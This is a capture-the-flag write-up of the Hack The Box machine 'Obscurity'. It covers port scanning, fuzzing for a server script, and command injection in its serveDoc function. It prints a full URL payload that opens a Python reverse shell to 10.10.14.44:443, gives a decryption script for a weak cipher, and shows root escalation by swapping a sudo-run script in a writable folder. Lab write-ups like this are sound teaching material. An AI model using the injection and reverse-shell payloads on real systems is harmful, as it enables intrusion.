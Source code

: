 ```yaml
---
layout: post
author: k0z4c
title: Obscurity
---
```


## **Getting Access**

We start with

```bash
nmap -Pn -n -O -sC -vv -oA nmap/tcp_default obscurity
```

![]({% link assets/htb/obscurity/nmap.png %})

Looking at port 8080 and reading the home page we can see that there's a file somewhere on the webserver  called SuperSecureServer.py 

![]({% link assets/htb/obscurity/hint.png %})

We can try to fuzz the URL http://obscurity:8080 to search for that file; so we fire up dirbuster and we set URL fuzzing 
with this value /{dir}/SuperSecureServer.py using the wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt .

![]({% link assets/htb/obscurity/dirb.png %})

Let's download the file!

![]({% link assets/htb/obscurity/download.png %})

Diving into the source code we can see that handleRequest is the method of the class Server that perform the business logic 

![]({% link assets/htb/obscurity/handle.png %})

So looking at it, we can spot a command injection point in the called function serveDoc

![]({% link assets/htb/obscurity/injection.png %})

So we can inject commands simply doing an HTTP request that closes the quotes with:

```bash
'; <payload>;'
```

So we inject a reverse shell coded in python as the payload. 
Then, doing this HTTP request that will spawn a reverse shell on 443

```python
http://obscurity:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.44",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

So, after firing up a netcat linstener on 443 to handle the connection back,  we do:
(the URL is encoded with URL encoding) 

![]({% link assets/htb/obscurity/inj_exploit.png %})

... and voila!

![]({% link assets/htb/obscurity/user.png %})

## **Privilege escalation to user**

Poking around we find robert's folder 

![]({% link assets/htb/obscurity/robert.png %})

Let's see.. passwordreminider.txt is encrypted. So, analyzing SuperSecureCrypt.py nothing interesting is found.. 
So trying with the things we have, we end up that the user ciphered the key for passwrodreminder.txt (out.txt) with check.txt. 

Manipulating now a quick decrypter that reads the key from a file

```python
# file decrypt.py 

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

if __name__ == '__main__':

        with open('check.txt', 'r', encoding='UTF-8') as f:
                key = f.read()

        with open('out.txt', 'r', encoding='UTF-8') as f:
                text = f.read()
        decrypted = decrypt(text, key)
        print(decrypted)
```

Then we recover the key for passwrodreminder.txt

![]({% link assets/htb/obscurity/mid.png %})

We save the result in a file called key.txt. Then changing in our script the key file with key.txt and out.txt with the passwordreminder.txt and we get the password:

![]({% link assets/htb/obscurity/key.png %})

.. OKay, what next? 
There was an SSH port opened.. let's try!

So, Connecting now through SSH with the new key we log as robert user

![]({% link assets/htb/obscurity/login.png %})

Now we can read the user's flag

![]({% link assets/htb/obscurity/user_flag.png %})

user pwnd!

let's move forward

## Privilege escalation for root

Looking at the BetterSSH.py script we see that it uses sudo; so it is enabled on the system and user robert is in the sudoers file too.
Then let's check robert's sudo privileges

![]({% link assets/htb/obscurity/sudo.png %})

So roberts can execute BetterSSH.py with root privileges without requiring a password neither.

The first thing that came on to my mind was to backdoor the file but we can not modify the script (owned by root). 
So after a while, we can spot that yes, we can not modify the file but we can modify the folder

![]({% link assets/htb/obscurity/spot.png %})

so.. we can implant a new  script with the name BetterSSH.py that spawns a root shell. 
Very very bad, mr. Robert!

Writing then a quick script to obtain a shell through python (recycle, man) and saving it as BetterSSH.py in a new BetterSSH folder:
(remember to mv the original one like mv BetterSSH smth)

```python
# BetterSSH.py
while True:
    command = input('> ')
    cmd.extend(command.split(" "))
    proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

    o,e = proc.communicate()
    print('Output: ' + o.decode('ascii'))
    print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

let's execute now the script with sudo 

![]({% link assets/htb/obscurity/root.png %})

... pwned (:

